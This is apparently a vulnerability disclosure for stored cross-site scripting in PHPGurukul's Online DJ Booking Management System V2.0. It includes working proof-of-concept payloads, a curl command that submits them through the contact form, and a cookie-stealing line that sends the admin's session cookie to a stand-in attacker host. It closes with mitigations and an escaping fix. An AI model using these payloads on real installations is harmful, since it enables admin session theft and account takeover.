 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product:

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/admin/view-user-queries.php`                                              |
| **Affected File(s)**    | `odms/admin/view-user-queries.php`                                          |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview:

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit a contact us query form** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that query in the dashboard, the script executes in their browser, potentially leading to:

- Cookie theft  
- Session hijacking  
- Unwanted actions performed on behalf of the admin  

---

## Steps to Reproduce:

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS) and located it on my domain name: `pentest1.blackm4c.xyz`.

1. **Open the Contact Us page and fill the form:**

    ```
    https://domain.com/contact.php
    ```

    ![Contact Us page](./images/support_page.png)

2. **Submit the form with XSS payloads using Burp Suite or browser developer tools.**  
   Payloads can be injected into:

    - Name  
    - Email  
    - Message  

    ![Burp Suite Repeater](./images/burp.png)

    Example POST payload:
    ```
    name=<script>alert("from+name+field")</script>&email=<script>alert("from+email+field")</script>&mobnum=123456789&message=<script>alert("from+message+field")</script>&submit=Submit
    ```

    Example `curl` command:
    ```bash
    curl -k -X POST 'https://domain.com/contact.php' \
    -b 'PHPSESSID=e9tr282kpesjphiav73rn8osm3' \
    --data 'name=<script>alert("from name")</script>&email=<script>alert("from email")</script>&mobnum=123456789&message=<script>alert("from message")</script>&submit=Submit'
    ```

3. **Log in to the admin account and navigate to the new Unread Queries:**

    Sidebar → **DASHBOARD** → **Total Unread Queries**

    ```
    https://domain.com/admin/unread-queries.php
    ```

    ![Dashboard page](./images/nav.png)

    After locating the infected query, click the **View** button:

    ![Query list](./images/nav2.png)  
    ![XSS trigger](./images/xss1.png)  
    ![XSS trigger](./images/xss2.png)  
    ![XSS trigger](./images/xss3.png)

    Demonstration of HTML injection:
    ![HTML trigger](./images/finalxss.png)

4. **Viewed queries are moved to the 'Total Read Queries' section:**

    Sidebar → **DASHBOARD** → **Total Read Queries**

    ![Navigation](./images/readmsg.png)

    Clicking again triggers the payload:

    ![XSS trigger](./images/readmsglist.png)

    The XSS payloads will execute via JavaScript `alert()` pop-ups for each infected field.

---

## Impact of Stored XSS

- An authenticated user can submit a query with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and is stored in the backend (Database).
- When the **admin views the query**, the script executes in the admin's browser.
- This can lead to **admin account takeover** by stealing session cookies using payloads like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- The attacker can impersonate the admin and gain full system access.

---

## ✅ Recommended Mitigations

The developer implemented `htmlspecialchars()` in some parts of the system, but missed doing so in `view-user-queries.php`.

- **Input Sanitization:**  
  Strip or escape HTML/JavaScript tags from user inputs before storing.

- **Output Encoding:**  
  Encode output data before rendering (e.g., use `htmlspecialchars()`).

- **Use Templating Engines That Auto-Escape Output:**
  - **Twig:** `{{ name }}` auto-escapes
  - **Blade (Laravel):** `{{ $name }}` auto-escapes

- **Content Security Policy (CSP):**  
  Add a strict CSP header to limit script execution.

- **HTTPOnly Cookies:**  
  Mark session cookies with `HttpOnly` to prevent JavaScript access.

- **Input Validation:**  
  Validate data format, type, and length on all user inputs.

---

## Code Fix

Ensure all echoed data is escaped:

```php
<!-- Before (vulnerable) -->
<td><?php echo $row['name']; ?></td>

<!-- After (secure) -->
<td><?php echo htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8'); ?></td>
```
Apply this change to all user-generated data displayed in view-user-queries.php.

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)